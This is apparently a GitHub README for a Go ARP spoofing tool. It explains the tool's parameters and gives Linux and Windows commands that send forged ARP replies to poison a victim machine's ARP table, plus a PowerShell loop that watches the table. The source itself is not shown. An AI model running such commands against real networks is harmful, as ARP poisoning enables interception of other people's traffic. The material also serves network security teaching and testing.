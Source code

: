 # ARP Spoofing (but not like the others)

![img](.doc/example.gif)

## Usage

| Parameter      | Description                                                                   |
|----------------|-------------------------------------------------------------------------------|
| targetMAC      | MAC address of the victim to send the attack to                               |
| spoofedIP      | Ip entry in the ARP table of victim to be altered                             |
| spoofedMAC     | New MAC address to be set                                                     |
| interface      | Interface to use to send attack from                                          |
| listInterfaces | Will list interfaces of the machine                                           |
| interactive    | Run this tool in interactive mode, provide quick way to edit current settings |
| help           | Displays help on how to use this                                              |

### Example

In the commands below, our machine will send packets using interface `eth1` on Linux,
`\Device\NPF_{94E6ABD7-B890-4E28-B454-6613FE5D2136}` on Windows to the machine with NIC that has MAC address `00:15:5D:09:B8:34`,
that will receive packets telling it machine with IP `200.201.202.144` has MAC address `DE:AD:BE:EF:11:12`.

#### Linux

- Must be run as root

```bash
go build .
sudo ./arp-spoof -interface=eth1 -spoofedMAC=DE:AD:BE:EF:11:12 -spoofedIP=200.201.202.144 -targetMAC=00:15:5D:09:B8:34
```

#### Windows

- Must be run as administrator
- Needs [Npcap](https://npcap.com/#download) installed

```powershell
go build .
.\arp-spoof.exe -interface "\Device\NPF_{94E6ABD7-B890-4E28-B454-6613FE5D2136}" -spoofedMAC DE:AD:BE:EF:11:12 -spoofedIP 200.201.202.144
```

## Interactive mode

In interactive mode, you can edit the value by clicking it, or simply increase/decrease it, by overing and using the mouse
wheel for a quick editing.

![img](.doc/exampleInteractive.gif)

## Display arp table for given IP root using powershell

```powershell
$IP_ROOT="200.201.202."

while ($True)
{
    $arpTable = (arp -a | Select-String -Pattern "^ *$IP_ROOT*" -AllMatches) -join "`n"

    Clear-Host
    Write-Host $arpTable

    Start-Sleep -Seconds 1
}
```

## Author

SOARES Lucas
